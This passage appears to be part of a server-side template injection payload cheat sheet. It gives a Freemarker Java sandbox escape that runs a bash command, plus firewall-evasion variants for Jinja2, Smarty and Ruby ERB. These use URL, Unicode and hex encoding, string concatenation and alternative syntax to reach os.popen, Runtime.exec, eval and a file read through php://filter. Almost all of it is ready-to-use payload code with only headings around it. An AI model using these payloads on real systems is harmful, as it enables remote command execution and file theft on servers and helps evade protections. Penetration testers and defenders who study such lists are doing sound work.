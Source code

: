 #### Java Sandbox Escape
```
# For Freemarker
<#assign classloader=object.class.protectionDomain.classLoader>
<#assign ownerClass=classloader.loadClass("freemarker.template.Configuration")>
<#assign field=ownerClass.getDeclaredField("_ObjectBuilderSettings")>
<#assign field.accessible=true>
<#assign object=field.get(null)>
<#assign constructor=object.class.getDeclaredConstructors()[0]>
<#assign constructor.accessible=true>
<#assign object=constructor.newInstance()>
<#assign method=object.class.getDeclaredMethods()[0]>
<#assign method.accessible=true>
<#assign result=method.invoke(object, "/bin/bash", "-c", "id")>
```

### WAF Bypass Techniques

#### Character Encoding and Obfuscation
```
{% raw %}
# URL Encoding
{{config.__class__.__init__.__globals__['os'].popen(request.args.get('cmd')).read()}}
// Encode 'os' as %6f%73 and other parts as needed

# Unicode Normalization
{{config.__class__.__init__.__globals__['\u006f\u0073'].popen("id").read()}}

# Hex Encoding
{{config.__class__.__init__.__globals__['\x6f\x73'].popen("id").read()}}
{% endraw %}
```

#### String Concatenation
```
{% raw %}
# Jinja2
{{ config.__class__.__init__.__globals__['o'+'s'].popen('i'+'d').read() }}

# PHP/Smarty
{$smarty.block.child["__construct"]("file_get_contents",["php://filter/convert.base64-encode/resource=index.php"])}

# Freemarker
${"".getClass().forName("java.la"+"ng.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke("".getClass().forName("java.la"+"ng.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(null),"id")}
{% endraw %}
```

#### Alternative Syntax
```
{% raw %}
# Jinja2
{% set cmd = 'import os; os.popen("id").read()' %}
{{ lipsum.__globals__.__builtins__.eval(cmd) }}

# Ruby ERB
<%= defined?(proc) ? proc { |n| eval(n) }.call('system("id")') : system("id") %>
{% endraw %}
```

